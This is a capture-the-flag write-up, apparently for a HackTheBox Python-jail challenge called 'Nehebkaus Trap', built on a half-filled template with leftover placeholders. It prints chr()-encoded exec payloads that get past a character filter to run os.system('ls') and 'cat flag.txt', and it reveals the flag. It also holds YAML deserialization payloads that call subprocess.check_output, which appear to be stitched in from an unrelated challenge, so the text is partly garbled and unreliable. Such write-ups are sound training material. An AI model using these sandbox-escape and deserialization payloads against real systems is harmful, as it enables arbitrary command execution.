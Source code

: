 # Challenge Name: Nehebkaus Trap

**Category:** Misc  
**Points:** [Point value]  
**Author:** [Your name]  
**Team:** [Your team name]  
**Completion Date:** [Date of comple7tion]

## Introduction

In search of the ancient relic, you go looking for the Pharaoh's tomb inside the pyramids. A giant granite block falls and blocks your exit, and the walls start closing in! You are trapped. Can you make it out alive and continue your quest?


## Tools Used

- telnet
- [Tool 2]
- [Tool 3]

## Initial Analysis

evilStr = """
!!python/object:__main__.User
data:  !!python/object/apply:subprocess.check_output ['whoami']
email: dang
name: dang
"""
!!python/object:__main__.Config {IR_spectrometer_temp: '!!python/object/apply:subprocess.check_output ['whoami']', auto_calibration: '1',
  propulsion_temp: '1', solar_array_temp: '1', units: '1'}

!!python/object:__main__.Config {IR_spectrometer_temp: '1', auto_calibration: '1',
  propulsion_temp: '1', solar_array_temp: '1', units: '1'}


## Detailed Methodology

### Step 1: Identified vulnerability
I can run certain python functions. Here I am using exec function because it will allow me to execute arbitrary code. Because the site used a character filter to block specific characters, i had to write the command in exec in ascii.
To identify that I can indeed execute these commands I used exec(time.sleep(5))

```exec(chr(116)+chr(105)+chr(109)+chr(101)+chr(46)+chr(115)+chr(108)+chr(101)+chr(101)+chr(112)+chr(40)+chr(53)+chr(41))```
### Step 2: Recon
Now using this vulnerability I try to find where the flag is located using ls.
```__import__('os').system('ls')```

```exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(108)+chr(115)+chr(39)+chr(41))```


### Step 3: Flag

Next I run cat flag.txt to read the flag 
```__import__('os').system('cat flag.txt')```

```exec(chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)+chr(40)+chr(39)+chr(111)+chr(115)+chr(39)+chr(41)+chr(46)+chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)+chr(40)+chr(39)+chr(99)+chr(97)+chr(116)+chr(32)+chr(102)+chr(108)+chr(97)+chr(103)+chr(46)+chr(116)+chr(120)+chr(116)+chr(39)+chr(41))```

## Flag Capture

Step 1, 2, 3

<details>
<summary>Click to reveal the flag</summary>
HTB{y0u_d3f34t3d_th3_sn4k3_g0d!}                                             
